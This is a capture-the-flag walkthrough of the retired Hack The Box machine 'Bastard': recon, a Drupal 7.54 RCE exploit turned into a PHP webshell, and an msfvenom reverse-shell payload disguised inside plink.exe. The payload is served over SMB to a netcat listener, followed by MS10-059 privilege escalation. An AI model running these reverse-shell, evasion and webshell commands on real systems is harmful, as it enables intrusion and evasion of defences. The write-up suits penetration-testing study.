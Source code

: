 ```yaml
---
layout: post
title: "HTB-Bastard"
categories: HTB-Walkthrough
---
```


![bastard](/assets/img/bastard/bastard.png)

Bastard is another HTB machine from the 'retired' list, and it isn't as bad as it sounds.

Nmap first...
`nmap -sV -Pn 10.10.10.9 |tee -a bast.txt`

```

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Immediate plan of action: Check searchsploit for IIS 7.5, and checkout the website via the browser...

`searchsploit iis 7.5`

```

---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt

```

This was the only exploit (besides the dos one), so I opened up the browser to see what the web-server was doing...

![bastard-frontpage](/assets/img/bastard/bastard-frontpage.png)

In the source of the frontpage I spot that the site is using Drupal version 7

```

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />

```

Checking this with searchsploit yeilded more results...

`searchsploit drupal 7`

![bastard-drupal-searchsploit](/assets/img/bastard/bastard-drupal-searchsploit.png)


Not sure at this stage exactly what version Drupal 7 we have, I decide to enumerate the server's directories with gobuster.

I often run gobuster with the `-t 50` flag (threads=50), but that threw up lots of errors, so I went with the default 10, then eventually to 5, still a few errors and it was awfully slow:

`gobuster dir -u http://10.10.10.9/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 5`

While gobuster was doing its thing, I had a manual browse; `robots.txt` is always the first to try as it can provide a good jumping point for further browsing, but so often reveals nothing...

Not in this case...robots.txt is full of information...I scan the list for interesting destinations.

In the `#files` section there is `/CHANGELOG.txt`, which should be able to give us an accurate version number.


It  informs us that the exact version of drupal is
`Drupal 7.54, 2017-02-01`

Armed with this I look at the searchsploit results again, and see that the options are reduced.

I copied the `Drupal services module RCE` and the `Drupalgeddon3 RCE PoC` (not metasploit version) to my working folder and had a read.

`searchsploit -m 41564`
`searchsploit -m 44542`



############################################


![Incomming!](/assets/img/m.jpg)

<hr width="250" size="6">


I decided to have a go at the drupal services module RCE exploit; it requires modifying, I need to find the rest endpoint.

My gobuster results include ` /rest`
Browsing to the page gets the message:

`Services Endpoint "rest_endpoint" has been setup successfully.`

So I'm able to modify the exploit accordingly

![drupal-exploit](/assets/img/bastard/bastard-drupal-exploit.png)

I changed the php payload to a webshell, that's executable from the created page sh1n0bi.php.




<h4>msfvenom</h4>
I use msfvenom to craft a payload, I chose a 'known' port thats usually deemed 'safe', but is not in use, I also encrypt it with `shikata_ga_nai` and embed it into a 'safe' binary called `plink.exe`;
hopefully any defences looking for a suspicious signature will not be alerted.

```

msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil.exe

```

Rather than upload the evil.exe I can serve it to the target with Impacket's smbserver.py



First we have to run smbserver.py and share the folder containing evil.exe.

`python smbserver.py -comment 'My share' Sh1n0bi /tmp/sh1n/`

Second, set an nc listener...
`nc -nlvp 443'

Third, execute the evil payload via the created webshell.
`10.10.10.9/sh1n0bi.php?cmd=\\10.10.14.16\Sh1n0bi\evil.exe`

we get a shell...


![smbshare](/assets/img/bastard/bastard-smbshare.png)

![gotshell](/assets/img/bastard/bastard-gotshell.png)

<hr width="250" size="6">


<h3>Privilege Escalation</h3>



I check with `windows-exploit-suggester.py` 

![suggester](/assets/img/bastard/bastard-suggester.png)


I select MS10-059.exe, copy it to my /tmp/sh1n folder as chim.exe


I execute it from the target making sure I start a netcat listener first.

![chim](/assets/img/bastard/bastard-chim.png)

![rootshell](/assets/img/bastard/bastard-rootshell.png)



```

type dimitris\desktop\user.txt
baxxxxxxxxxxxxxxxxxxxxxxxxxxxxa2

```


```

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bxxxxxxxxxxxxxxxxxxxxxxxxxxxx7c

```

:)
